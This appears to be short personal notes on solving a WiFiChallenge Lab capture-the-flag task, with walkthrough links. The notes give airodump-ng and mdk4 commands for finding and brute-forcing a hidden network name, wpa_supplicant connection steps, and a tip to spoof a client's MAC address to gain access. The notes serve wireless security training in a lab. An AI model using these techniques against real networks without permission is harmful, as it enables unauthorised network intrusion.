 # Files: 
https://wifichallengelab.com/challenges  

# Solve:
https://r4ulcl.com/posts/walkthrough-wifichallenge-lab-2.0/#05-what-is-the-flag-in-the-hidden-ap-router-behind-default-credentials  
https://r4ulcl.com/posts/wifi_db-in-wifichallenge-lab/  

# Something new:
1) **airodump-ng** --> sudo airmon-ng start wlan0.  
                       sudo airodump-ng wlan0mon -w ~/wifi/scan --band abg --wps --manufacturer
2) **ESSID of hidden AP** --> https://xre0us.io/posts/identifying-ap-with-hidden-ssid/  
        sudo airmon-ng start wlan0  
        iwconfig wlan0mon channel <channel_number>  
        sudo mdk4 wlan0mon p -t <MAC> -f <wordlist>
3) **Connection using specific ESSID** --> Create config file  
       wpa_supplicant -Dnl80211 -iwlan2 -c <config_file>
       dhclient wlan2 -v  
4) To get valid credentials for login as well as the login.php you have to change the MAC address to that of the client using the ESSID.
5) 
       
   
                              
